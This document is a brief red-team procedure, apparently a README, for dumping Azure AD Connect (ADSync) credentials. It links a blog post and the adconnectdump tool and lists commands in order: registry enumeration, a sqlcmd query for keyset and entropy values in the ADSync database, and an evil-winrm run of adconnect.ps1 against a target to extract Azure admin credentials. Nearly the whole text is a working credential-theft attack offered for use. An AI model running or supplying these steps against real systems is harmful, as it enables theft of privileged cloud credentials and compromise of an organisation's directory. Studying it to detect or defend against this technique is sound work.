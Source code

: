 ### Resource: https://blog.xpnsec.com/azuread-connect-for-redteam/

### Service Name: ADSync

### Tools: https://github.com/dirkjanm/adconnectdump

### STEPS:

#### 1) Enumerate the service instance using the registry

    Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync 

#### 2) Obtain the file and product version

    Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force 

#### 3) Query the values that you might need to add to the script corresponding to your use case (Optional)

    sqlcmd -S HOSTNAME -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration" 

#### 4) Run the powershell script against the target to extract the Azure Admin credentials

    evil-winrm -i IP_ADDRESS -u USERNAME -p "PASSWORD" -s . adconnect.ps1 
